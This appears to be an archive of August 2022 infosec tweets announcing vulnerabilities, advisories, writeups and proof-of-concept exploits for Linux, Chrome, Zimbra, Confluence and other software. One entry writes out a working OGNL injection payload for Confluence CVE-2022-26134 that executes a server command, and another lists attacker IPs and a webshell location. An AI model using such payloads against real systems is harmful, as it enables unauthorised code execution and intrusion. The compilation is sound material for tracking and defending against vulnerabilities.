





# sec_consult
**https://twitter.com/sec_consult/status/1564938365291601922 _at 2022-08-31, 11:29:16_**
<blockquote>
Remote Code Execution with a crafted #PDF in @foxitsoftware PDF Reader: Exploitation of a memory corruption #vulnerability in the v8 #JavaScript engine to bypass the patch for CVE-2020-15638 🛡️https://t.co/7U3dwvk1G0 #infosec @ReneFreingruber https://t.co/s51SSlySz3
</blockquote>

* https://r.sec-consult.com/foxitpdf

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>33</code></td>
<td>Favorites: <code>87</code></td>
</tr></table>

---

# lockedbyte
**https://twitter.com/lockedbyte/status/1564343093633208321 _at 2022-08-29, 20:03:52_**
<blockquote>
I developed an N-day exploit for CVE-2022-2586: Linux kernel nft_object Use-After-Free (UAF). I sent my exploit and writeup to the oss-security mailing list: https://t.co/E6YZiBG8xW https://t.co/4B2RHa0T6M
</blockquote>

* https://www.openwall.com/lists/oss-security/2022/08/29/5

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>11</code></td>
<td>Replies: <code>10</code></td>
<td>Retweets: <code>201</code></td>
<td>Favorites: <code>758</code></td>
</tr></table>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1564226554040926217 _at 2022-08-29, 12:20:47_**
<blockquote>
CVE-2022-1802 + CVE-2022-1529 + CVE-2022-2200 Firefox 100.0.1 RCE Object prototype, they could set undesired attributes on a JavaScript object, leading to privileged code execution.

PoC
https://t.co/bPCyw0z3a2 https://t.co/SfV5kv9qQP
</blockquote>

* https://github.com/mistymntncop/CVE-2022-1802

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>109</code></td>
<td>Favorites: <code>273</code></td>
</tr></table>

---

# Yalujb
**https://twitter.com/Yalujb/status/1563910491936030720 _at 2022-08-28, 15:24:51_**
<blockquote>
Zero-click LPE exploit (CVE-2022-32893) for iOS 16 Beta 7 currently on sale. Selling price - €2,500,000 🫢 https://t.co/NIkPBiwQyp
</blockquote>

<table><tr>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>64</code></td>
<td>Favorites: <code>282</code></td>
</tr></table>

---

# bughuntar
**https://twitter.com/bughuntar/status/1562965024309596161 _at 2022-08-26, 00:47:54_**
<blockquote>
CVE-2022-26134 PoC
Confluence Pre-Auth RCE via OGNL Injection

${(#a=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec("id").getInputStream(),"utf-8")).(@com.opensymphony.webwork.ServletActionContext@getResponse().setHeader("X-Cmd-Response",#a))} https://t.co/cShTB7cQiF
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>14</code></td>
<td>Retweets: <code>67</code></td>
<td>Favorites: <code>215</code></td>
</tr></table>

---

# NCCGroupInfosec
**https://twitter.com/NCCGroupInfosec/status/1562711063740940288 _at 2022-08-25, 07:58:46_**
<blockquote>
Recently @fidgetingbits presented at @HacksInTaiwan on a 6 year old Linux kernel use-after-free vulnerability (CVE-2022-32250) which we exploited to gain reliable priv esc on Ubuntu 22.04. https://t.co/2vQKgDPho9 by @nccgroupinfosec EDG @saidelike @fidgetingbits @alexjplaskett" https://t.co/fl8Fral6QQ
</blockquote>

* https://research.nccgroup.com/wp-content/uploads/2022/08/2022_hitcon_settlers_of_netlink.pdf

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>37</code></td>
<td>Favorites: <code>69</code></td>
</tr></table>

---

# pyn3rd
**https://twitter.com/pyn3rd/status/1562673520684871681 _at 2022-08-25, 05:29:35_**
<blockquote>
CVE-2022-31197 PostgreSQL JDBC driver SQL injection. https://t.co/SAfVGNWFyd
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>81</code></td>
<td>Favorites: <code>480</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1562664529938771969 _at 2022-08-25, 04:53:51_**
<blockquote>
CVE-2022-32250 Linux kernel LPE PoC https://t.co/yqrJNVkdhV
</blockquote>

* https://github.com/theori-io/CVE-2022-32250-exploit

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>49</code></td>
<td>Favorites: <code>136</code></td>
</tr></table>

---

# theori_io
**https://twitter.com/theori_io/status/1562657706779222017 _at 2022-08-25, 04:26:44_**
<blockquote>
Our intern @_qwerty_po was destined to analyze a recent Linux kernel LPE vuln (CVE-2022-32250), a bug found and reported by @FidgetingBits.

Here's a brief write-up on the analysis of the bug and the exploit development. Check it out! https://t.co/hYaClfbEYp (exploit included)
</blockquote>

* https://blog.theori.io/research/CVE-2022-32250-linux-kernel-lpe-2022/

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>111</code></td>
<td>Favorites: <code>263</code></td>
</tr></table>

---

# TheGrandPew
**https://twitter.com/TheGrandPew/status/1562596397819785216 _at 2022-08-25, 00:23:07_**
<blockquote>
CVE-2022-36804 - RCE in Bitbucket Server

Will Release PoC in 30 days.
https://t.co/JpiOoVELYU
</blockquote>

* https://confluence.atlassian.com/bitbucketserver/bitbucket-server-and-data-center-advisory-2022-08-24-1155489835.html

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>22</code></td>
<td>Favorites: <code>95</code></td>
</tr></table>

---

# cfreal_
**https://twitter.com/cfreal_/status/1562445561135243267 _at 2022-08-24, 14:23:45_**
<blockquote>
My research on @watchguard Firebox/XTM firewalls, that yielded pre-auth Remote Code Execution as root, will be available on @ambionics next week (CVE-2022-31789, CVE-2022-31790).
https://t.co/KpQVAFDeUF
</blockquote>

* https://www.watchguard.com/wgrd-psirt/advisory/wgsa-2022-00015

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>17</code></td>
<td>Favorites: <code>65</code></td>
</tr></table>

---

# Reverse_Tactics
**https://twitter.com/Reverse_Tactics/status/1562355464448393216 _at 2022-08-24, 08:25:44_**
<blockquote>
The LPE vulnerability in the windows kernel we reported during #Pwn2Own 2022 in May has been patched by Microsoft on August 9: CVE-2022-34699.
Leave us some time to reverse the patch and we are going to publish the technical details for the vulnerability!
https://t.co/LqW7RWwTb4
</blockquote>

* https://www.zerodayinitiative.com/advisories/ZDI-22-1077/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>32</code></td>
<td>Favorites: <code>99</code></td>
</tr></table>

---

# mistymntncop
**https://twitter.com/mistymntncop/status/1562213591855808512 _at 2022-08-23, 23:01:59_**
<blockquote>
CVE-2022-2200 added to the chain. Full chain complete RCE + SBX :-).
Shout out to @_manfp, @hosselot and the good folks at @thezdi !!!
https://t.co/889PL5YdSH
</blockquote>

* https://github.com/mistymntncop/CVE-2022-1802/blob/main/exploit.html

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>84</code></td>
<td>Favorites: <code>236</code></td>
</tr></table>

---

# _CPResearch_
**https://twitter.com/_CPResearch_/status/1561704238769704960 _at 2022-08-22, 13:18:00_**
<blockquote>
[CPR-Zero] CVE-2022-23747 (Sony Xperia): #ALHACK vulnerability exposes all modern Sony Xperia devices to RCE and LPE attacks.

https://t.co/y26yXbt946
</blockquote>

* https://cpr-zero.checkpoint.com/vulns/cprid-2191/

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>20</code></td>
<td>Favorites: <code>54</code></td>
</tr></table>

---

# ptracesecurity
**https://twitter.com/ptracesecurity/status/1561118645438275584 _at 2022-08-20, 22:31:03_**
<blockquote>
GHSL-2022-043: Remote Code Execution (RCE) in the Chrome renderer - CVE-2022-1869 https://t.co/0cNgiocu8t  #Pentesting #CyberSecurity #Infosec https://t.co/FKlOSsxPYY
</blockquote>

* https://securitylab.github.com/advisories/GHSL-2022-043_Chromium/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>34</code></td>
<td>Favorites: <code>47</code></td>
</tr></table>

---

# TodayCyberNews
**https://twitter.com/TodayCyberNews/status/1561004290528796672 _at 2022-08-20, 14:56:39_**
<blockquote>
RCE (Authenticated) on Webmin &lt; 1.997
CVE-2022-36446
exploit
https://t.co/1fVsK5tilQ

#exploit #webmin #RCE #CVE #infosec #cybersecurity #bugbounty https://t.co/oQYxUGXJev
</blockquote>

* https://github.com/p0dalirius/CVE-2022-36446-Webmin-Software-Package-Updates-RCE

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>75</code></td>
<td>Favorites: <code>142</code></td>
</tr></table>

---

# Pethuraj
**https://twitter.com/Pethuraj/status/1560984747827900417 _at 2022-08-20, 13:39:00_**
<blockquote>
LogMePwn - A fully automated, reliable, super-fast, mass scanning and validation toolkit for the Log4J RCE CVE-2021-44228 vulnerability.
https://t.co/OSgemN1fzF

#cybersecurity  #bugbountytips #pethuraj #infosec #bugbounty
</blockquote>

* https://github.com/0xInfection/LogMePwn

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>36</code></td>
<td>Favorites: <code>81</code></td>
</tr></table>

---

# 1rpwn
**https://twitter.com/1rpwn/status/1560885430261800961 _at 2022-08-20, 07:04:21_**
<blockquote>
RCE (Authenticated) on Webmin &lt; 1.997
CVE-2022-36446
exploit :
https://t.co/w1QbvGXcPr
#webmin #RCE #infosec #bugbounty #hacking #0day https://t.co/DF7ZtYKeyw
</blockquote>

* https://github.com/p0dalirius/CVE-2022-36446-Webmin-Software-Package-Updates-RCE

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>9</code></td>
<td>Favorites: <code>46</code></td>
</tr></table>

---

# pdnuclei
**https://twitter.com/pdnuclei/status/1560798040012853248 _at 2022-08-20, 01:17:05_**
<blockquote>
Scan for Zimbra Collaboration Suite - Unauthenticated RCE (CVE-2022-37042) using nuclei template shared by  @_0xf4n9x_, For3stCo1d

https://t.co/YKZdkJDnnb

https://t.co/DzAVG3FqLp

#hackwithautomation #security #bugbounty #appsec https://t.co/Hba98vrfvW
</blockquote>

* https://github.com/projectdiscovery/nuclei-templates/pull/5134
* https://blog.zimbra.com/2022/08/authentication-bypass-in-mailboximportservlet-vulnerability/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>51</code></td>
<td>Favorites: <code>162</code></td>
</tr></table>

---

# MsftSecIntel
**https://twitter.com/MsftSecIntel/status/1560752217535176705 _at 2022-08-19, 22:15:00_**
<blockquote>
A remote memory corruption vulnerability in ChromeOS, identified as CVE-2022-2587 and fixed by Google in June, could have permitted denial-of-service or remote code execution attacks. Read our blog via @yo_yo_yo_jbo: https://t.co/R2OzZpyPfx
</blockquote>

* https://msft.it/6011jZQB7

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>65</code></td>
<td>Favorites: <code>135</code></td>
</tr></table>

---

# GHSecurityLab
**https://twitter.com/GHSecurityLab/status/1560654332932288514 _at 2022-08-19, 15:46:03_**
<blockquote>
GHSL-2022-043: Remote Code Execution (RCE) in the Chrome renderer - CVE-2022-1869 https://t.co/Bn8EUrVMJK
</blockquote>

* https://securitylab.github.com/advisories/GHSL-2022-043_Chromium/

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>74</code></td>
<td>Favorites: <code>194</code></td>
</tr></table>

---

# TheZDIBugs
**https://twitter.com/TheZDIBugs/status/1560280652829925376 _at 2022-08-18, 15:01:10_**
<blockquote>
[ZDI-22-1068|CVE-2022-35820] (Pwn2Own) Microsoft Windows bthport Driver Improper Authorization Local Privilege Escalation Vulnerability (CVSS 8.8; Credit: T0) https://t.co/U6LDrrY4hj
</blockquote>

* https://www.zerodayinitiative.com/advisories/ZDI-22-1068/

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>17</code></td>
<td>Favorites: <code>34</code></td>
</tr></table>

---

# maddiestone
**https://twitter.com/maddiestone/status/1560046636230795264 _at 2022-08-17, 23:31:16_**
<blockquote>
3 in-the-wild 0-days patched in the last two days:
* CVE-2022-2856 in Chrome discovered by @ashl3y_shen &amp; @0xbadcafe1 of Google TAG
* CVE-2022-32893 in Safari
* CVE-2022-32894 in iOS/macOS kernel

https://t.co/ga4q8NUYRk
#itw0days
</blockquote>

* https://docs.google.com/spreadsheets/d/1lkNJ0uQwbeC1ZTRrxdtuPLCIl7mlUreoKfSIgajnSyY/edit#gid=1662223764

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>51</code></td>
<td>Favorites: <code>160</code></td>
</tr></table>

---

# 1ZRR4H
**https://twitter.com/1ZRR4H/status/1560006936866742281 _at 2022-08-17, 20:53:31_**
<blockquote>
🚨 Massive exploitation of CVE-2022-27925 (Zimbra Unauthenticated RCE) in progress, attackers install #Webshell in /opt/zimbra/mailboxd/webapps/zimbraAdmin/ as a backdoor for later access (IAB?).

Attacks from:
66.115.189.144 🇺🇸
143.110.187.0 🇮🇳

1/X https://t.co/CksrVG7cdg
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>111</code></td>
<td>Favorites: <code>212</code></td>
</tr></table>

---

# ashl3y_shen
**https://twitter.com/ashl3y_shen/status/1559967415697653766 _at 2022-08-17, 18:16:29_**
<blockquote>
The Chrome 0day (CVE-2022-2856) that me and @0xbadcafe1 found ITW is patched in the latest release. Update your Chrome to make sure you are protected. https://t.co/WUW8hi5qkA
</blockquote>

* https://chromereleases.googleblog.com/2022/08/stable-channel-update-for-desktop_16.html

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>39</code></td>
<td>Favorites: <code>109</code></td>
</tr></table>

---

# Nettitude_Labs
**https://twitter.com/Nettitude_Labs/status/1559933576749121536 _at 2022-08-17, 16:02:01_**
<blockquote>
CVE-2022-30211: Zero-day in Microsoft's L2TP VPN, discovered by @i4mchr00t. This Memory Leak and Use after Free bug leads to DoS, and could potentially be exploited for Remote Code Execution.

https://t.co/W0XWPZCNWF
</blockquote>

* https://labs.nettitude.com/blog/cve-2022-30211-windows-l2tp-vpn-memory-leak-and-use-after-free-vulnerability/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>16</code></td>
<td>Favorites: <code>52</code></td>
</tr></table>

---

# ptswarm
**https://twitter.com/ptswarm/status/1559893047327997954 _at 2022-08-17, 13:20:58_**
<blockquote>
🐳 Red Hat fixed an Unauth XXE (CVE-2022-2414) in FreeIPA found by our researcher @elk0kc.

In some cases, it allows attackers to read the Directory Manager password from the config of FreeIPA and take full control of the infrastructure.

Advisory: https://t.co/kDh7uEdO9j https://t.co/Y1L13kq8HO
</blockquote>

* https://access.redhat.com/security/cve/CVE-2022-2414

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>49</code></td>
<td>Favorites: <code>146</code></td>
</tr></table>

---

# ryanaraine
**https://twitter.com/ryanaraine/status/1559891105168076801 _at 2022-08-17, 13:13:15_**
<blockquote>
New Chrome 0day

"Google is aware that an exploit for CVE-2022-2856 exists in the wild."

Story https://t.co/NxWqRvxcLy
</blockquote>

* https://www.securityweek.com/google-patches-fifth-exploited-chrome-zero-day-2022

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>110</code></td>
<td>Favorites: <code>242</code></td>
</tr></table>

---

# _0xf4n9x_
**https://twitter.com/_0xf4n9x_/status/1559795963078000641 _at 2022-08-17, 06:55:11_**
<blockquote>
Release of #CVE-2022-37042 Zimbra Authentication Bypass Causing RCE Non-Destructive Vulnerability Detection Template.
https://t.co/L6m2Lta1E7 https://t.co/pxbD1acfL6
</blockquote>

* https://github.com/projectdiscovery/nuclei-templates/pull/5134/files

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>77</code></td>
<td>Favorites: <code>262</code></td>
</tr></table>

---

# 0xdea
**https://twitter.com/0xdea/status/1559106965061632001 _at 2022-08-15, 09:17:21_**
<blockquote>
Mac Application Sandbox Escape (CVE-2021-30659), Root Privilege Escalation, and SIP Filesystem Bypass

Process injection: breaking all macOS security layers with a single vulnerability

https://t.co/uSJmNs10Ff https://t.co/yMPs5NqYhV
</blockquote>

* https://sector7.computest.nl/post/2022-08-process-injection-breaking-all-macos-security-layers-with-a-single-vulnerability/

<table><tr>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>25</code></td>
<td>Favorites: <code>111</code></td>
</tr></table>

---

# _0xf4n9x_
**https://twitter.com/_0xf4n9x_/status/1559010571458326529 _at 2022-08-15, 02:54:19_**
<blockquote>
#CVE-2022-27925 #Zimbra Unauth #RCE vulnerability is being exploited on a mass scale.
https://t.co/Ld8G50PU7j
</blockquote>

* https://www.volexity.com/blog/2022/08/10/mass-exploitation-of-unauthenticated-zimbra-rce-cve-2022-27925/

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>18</code></td>
<td>Favorites: <code>54</code></td>
</tr></table>

---

# sudhanshur705
**https://twitter.com/sudhanshur705/status/1558788948838690816 _at 2022-08-14, 12:13:40_**
<blockquote>
Tried reproducing  vscode rce (CVE-2021-43908) 
Looks pretty sweet! Here's the video poc:

code: https://t.co/OhXjHocfCf

https://t.co/hTBvTIwuv1
</blockquote>

* https://github.com/Sudistark/vscode-rce-electrovolt
* https://www.youtube.com/watch?v=SzX22FcW-e0&feature=youtu.be

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>12</code></td>
<td>Favorites: <code>54</code></td>
</tr></table>

---

# kmkz_security
**https://twitter.com/kmkz_security/status/1558415084564758528 _at 2022-08-13, 11:28:04_**
<blockquote>
CVE-2022-2590: Linux kernel LPE
https://t.co/Pts5dSMRNE
</blockquote>

* https://securityonline.info/cve-2022-2590-linux-kernel-privilege-escalation-vulnerability/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>17</code></td>
<td>Favorites: <code>44</code></td>
</tr></table>

---

# sirifu4k1
**https://twitter.com/sirifu4k1/status/1558303197457895424 _at 2022-08-13, 04:03:28_**
<blockquote>
CVE-2022-27925-PoC: Zimbra RCE simple poc https://t.co/CIGnECAING
</blockquote>

* https://github.com/vnhacker1337/CVE-2022-27925-PoC

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>39</code></td>
<td>Favorites: <code>127</code></td>
</tr></table>

---

# Synacktiv
**https://twitter.com/Synacktiv/status/1558135908746108929 _at 2022-08-12, 16:58:44_**
<blockquote>
Here is our take on how to exploit CVE-2022-24816, a code injection flaw in JAI-EXT/jiffle leading to an unauthenticated remote code execution in Geoserver. Versions prior to 1.2.22 of JAI-EXT are affected. https://t.co/IqHPlFkyA3 Cc @_remsio_ @us3r777
</blockquote>

* https://www.synacktiv.com/en/publications/exploiting-cve-2022-24816-a-code-injection-in-the-jt-jiffle-extension-of-geoserver.html

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>20</code></td>
<td>Favorites: <code>39</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1557973880400388096 _at 2022-08-12, 06:14:53_**
<blockquote>
Researchers warn of mass exploitation of the RCE #vulnerability in #Zimbra (CVE-2022-27925 and CVE-2022-37042), which allows attackers to gain unauthenticated remote code execution on targeted email servers.

Read details: https://t.co/nsPyeIqiwe

#infosec #cybersecurity #hacking
</blockquote>

* https://thehackernews.com/2022/08/researchers-warn-of-ongoing-mass.html

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>48</code></td>
<td>Favorites: <code>54</code></td>
</tr></table>

---

# linkersec
**https://twitter.com/linkersec/status/1557752656919142400 _at 2022-08-11, 15:35:49_**
<blockquote>
CVE-2022-29582, an io_uring vulnerability

A detailed and well-written article by @Awarau1 and @pqlqpql about exploiting a slab use-after-free vulnerability in the io_uring subsystem.

https://t.co/ZdxXTdN1qm
</blockquote>

* https://ruia-ruia.github.io/2022/08/05/CVE-2022-29582-io-uring/

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>13</code></td>
<td>Favorites: <code>51</code></td>
</tr></table>

---

# stevenadair
**https://twitter.com/stevenadair/status/1557735162418380800 _at 2022-08-11, 14:26:18_**
<blockquote>
We caught another zero-day in the wild (CVE-2022-37042)! This time it was an authentication bypass that was used to facilitate remote code execution via CVE-2022-27925 on Zimbra mail servers around the world. Check out the @Volexity blog on it! https://t.co/I5zLLHj6t1
</blockquote>

* https://www.volexity.com/blog/2022/08/10/mass-exploitation-of-unauthenticated-zimbra-rce-cve-2022-27925/

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>46</code></td>
<td>Favorites: <code>99</code></td>
</tr></table>

---

# r00tbsd
**https://twitter.com/r00tbsd/status/1557618539187605504 _at 2022-08-11, 06:42:53_**
<blockquote>
Do you remember the CVE-2022-27925 (RCE) in #Zimbra? The one that requires admin creds? 
This prerequisite did not match our IR. So, Sir @tlansec investigated &amp; discovered it can be exploited without valid creds.
We identified 1000+ compromised servers.
 https://t.co/eS0NjqBCTa
</blockquote>

* https://www.volexity.com/blog/2022/08/10/mass-exploitation-of-unauthenticated-zimbra-rce-cve-2022-27925/

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>28</code></td>
<td>Favorites: <code>41</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1557597731182477316 _at 2022-08-11, 05:20:12_**
<blockquote>
Mass Exploitation of (Un)authenticated Zimbra RCE: CVE-2022-27925 https://t.co/V47TlrKeRy
</blockquote>

* https://www.volexity.com/blog/2022/08/10/mass-exploitation-of-unauthenticated-zimbra-rce-cve-2022-27925/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>21</code></td>
<td>Favorites: <code>64</code></td>
</tr></table>

---

# maddiestone
**https://twitter.com/maddiestone/status/1557504214682611712 _at 2022-08-10, 23:08:36_**
<blockquote>
